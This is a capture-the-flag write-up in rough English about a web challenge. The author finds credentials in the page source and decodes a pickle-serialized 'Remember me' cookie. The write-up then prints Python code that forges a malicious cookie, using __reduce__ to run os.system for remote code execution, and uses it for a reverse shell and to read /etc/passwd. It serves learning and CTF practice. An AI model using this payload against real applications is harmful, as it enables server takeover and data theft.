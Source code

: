 
Challenge Description:
We have noticed some weird actions on our website , we think that our passwd file has been compromised , can you make sure that it is secure

Step 1:
when you open the chakenge link you will see a login page i try to do a sqli didn't work then 
Step 2:
i open the page sourse i found a username and password  
step 3:
whe i login there is nothing useful i try bunch of thing like dir fuzzing 

step4:
 i notice there is a Remember me button when i cheaked it  there is new cookie apper after same search i found that cookie is a pickle serialization

step 5: 
i try to deserialize i try to decode as base64 but the apper in a unreadable text 
![image](https://github.com/user-attachments/assets/99a6ae69-8641-46b6-ab96-a843d92f77a7)

step 6:
i try use code i found in the internet but the same thing after same deging i found why the apper in unredable text i write this code to deserialize

```
import pickle
import base64

# Define the class `usr` (or import it if it's defined elsewhere)
class usr:
    def __init__(self, username, password):
       pass
    def __repr__(self):
        return f"usr(username='{self.username}', password='{self.password}')"
cookie = "yourcookie"

# Decode the base64 encoded string
decoded_cookie = base64.b64decode(cookie)

# Deserialize using pickle
deserialized_data = pickle.loads(decoded_cookie)

print(deserialized_data)
```
the output of this code be like this ```usr(username='test', password='test')```

step 7:
Then i write code to make my own serializa cookie i write this code 
```
import pickle
import base64
import subprocess
import os

class RCE(object):
    def __reduce__(self):
        cmd = 'Here can put any command you want '
        return os.system, (cmd,)

class usr(object):
    def __init__(self, username, password):
        self.username = username
        self.password = password

if __name__ == '__main__':
    user = usr(username=RCE(), password=RCE())

    pickled = pickle.dumps(user)
    
    encoded = base64.b64encode(pickled)
    print(encoded)
    encoded_urlsafe = base64.urlsafe_b64encode(pickled)
    print(encoded_urlsafe)
```
Then i make a rev shell then after genrate the cookie change it with cookie in the website 
after getting the rev shell i try to search to found the flag but notheing there called flag.txt samething like that after a reread the Description i notice i will found in the /etc/passwd file 
